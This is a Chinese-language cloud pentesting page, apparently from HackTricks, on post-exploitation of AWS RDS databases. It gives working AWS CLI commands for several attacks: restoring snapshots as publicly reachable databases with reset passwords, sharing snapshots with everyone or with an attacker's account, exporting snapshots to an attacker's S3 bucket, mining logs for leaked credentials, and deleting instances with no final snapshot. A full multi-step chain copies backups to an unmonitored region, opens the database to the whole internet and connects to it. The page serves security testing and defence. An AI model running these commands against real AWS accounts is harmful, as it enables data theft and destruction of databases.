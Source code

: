# AWS - RDS Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## RDS

更多信息请查看：

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

如果攻击者拥有足够权限，他可以先创建该 DB 的快照，然后从快照恢复出一个公开可访问的 DB，从而使 **DB 公开可访问**。
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

拥有这些权限的攻击者可以**创建一个 DB 的快照**并使其**公开可用**。然后，他可以在自己的账户中直接从该快照创建一个 DB。

如果攻击者**没有 `rds:CreateDBSnapshot` 权限**，他仍然可以将**其他**已创建的快照设为**公开**。
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
### `rds:DownloadDBLogFilePortion`

持有 `rds:DownloadDBLogFilePortion` 权限的攻击者可以 **下载 RDS 实例日志文件的部分内容**。如果敏感数据或访问凭证被意外记录，攻击者可能利用这些信息提升其权限或执行未授权的操作。
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
**潜在影响**: 使用 leaked credentials 访问敏感信息或执行未授权操作。

### `rds:DeleteDBInstance`

拥有这些权限的攻击者可以 **DoS 现有 RDS 实例**。
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
**潜在影响**: 删除现有 RDS 实例，并可能导致数据丢失。

### `rds:StartExportTask`

> [!NOTE]
> TODO：测试

拥有此权限的攻击者可以 **将 RDS 实例快照导出到 S3 存储桶**。如果攻击者控制目标 S3 存储桶，就可能访问导出快照中的敏感数据。
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
**潜在影响**: 访问导出快照中的敏感数据。

### 跨区域自动备份复制以进行隐蔽恢复 (`rds:StartDBInstanceAutomatedBackupsReplication`)

滥用跨区域自动备份复制，将 RDS 实例的自动备份悄悄复制到另一个 AWS 区域并在那里恢复。攻击者随后可以将恢复的 DB 设为公开可访问，并重置主密码，从而在防御方可能未监控的区域以带外方式访问数据。

所需权限（最少）：
- `rds:StartDBInstanceAutomatedBackupsReplication` 在目标区域
- `rds:DescribeDBInstanceAutomatedBackups` 在目标区域
- `rds:RestoreDBInstanceToPointInTime` 在目标区域
- `rds:ModifyDBInstance` 在目标区域
- `rds:StopDBInstanceAutomatedBackupsReplication`（可选清理）
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress`（用于暴露恢复的 DB）

影响：Persistence and data exfiltration 通过将生产数据的副本恢复到另一个区域并用攻击者控制的凭据公开暴露。

<details>
<summary>端到端 CLI（替换占位符）</summary>
```bash
# 1) Recon (SOURCE region A)
aws rds describe-db-instances \
--region <SOURCE_REGION> \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,DBInstanceStatus,PreferredBackupWindow]' \
--output table

# 2) Start cross-Region automated backups replication (run in DEST region B)
aws rds start-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN> \
--source-region <SOURCE_REGION> \
--backup-retention-period 7

# 3) Wait for replication to be ready in DEST
aws rds describe-db-instance-automated-backups \
--region <DEST_REGION> \
--query 'DBInstanceAutomatedBackups[*].[DBInstanceAutomatedBackupsArn,DBInstanceIdentifier,Status]' \
--output table
# Proceed when Status is "replicating" or "active" and note the DBInstanceAutomatedBackupsArn

# 4) Restore to latest restorable time in DEST
aws rds restore-db-instance-to-point-in-time \
--region <DEST_REGION> \
--source-db-instance-automated-backups-arn <AUTO_BACKUP_ARN> \
--target-db-instance-identifier <TARGET_DB_ID> \
--use-latest-restorable-time \
--db-instance-class db.t3.micro
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5) Make public and reset credentials in DEST
# 5a) Create/choose an open SG permitting TCP/3306 (adjust engine/port as needed)
OPEN_SG_ID=$(aws ec2 create-security-group --region <DEST_REGION> \
--group-name open-rds-<RAND> --description open --vpc-id <DEST_VPC_ID> \
--query GroupId --output text)
aws ec2 authorize-security-group-ingress --region <DEST_REGION> \
--group-id "$OPEN_SG_ID" \
--ip-permissions IpProtocol=tcp,FromPort=3306,ToPort=3306,IpRanges='[{CidrIp=0.0.0.0/0}]'

# 5b) Publicly expose restored DB and attach the SG
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids "$OPEN_SG_ID" \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5c) Reset the master password
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--master-user-password '<NEW_STRONG_PASSWORD>' \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 6) Connect to <TARGET_DB_ID> endpoint and validate data (example for MySQL)
ENDPOINT=$(aws rds describe-db-instances --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text)
mysql -h "$ENDPOINT" -u <MASTER_USERNAME> -p'<NEW_STRONG_PASSWORD>' -e 'SHOW DATABASES;'

# 7) Optional: stop replication
aws rds stop-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN>
```
</details>


{{#include ../../../banners/hacktricks-training.md}}
